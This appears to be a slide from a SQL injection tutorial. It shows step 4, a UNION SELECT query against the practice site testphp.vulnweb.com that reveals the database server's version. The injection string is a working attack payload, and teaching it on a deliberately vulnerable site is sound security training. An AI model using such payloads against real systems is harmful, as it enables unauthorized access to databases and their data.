

# INPUT AND RESULT
Use the query:
4. http://testphp.vulnweb.com/product.php?pic=-1 union select all 1,2,3,4,5,6,@@version,8,9,10,11
Result: We get to know all the version details of the SQL server.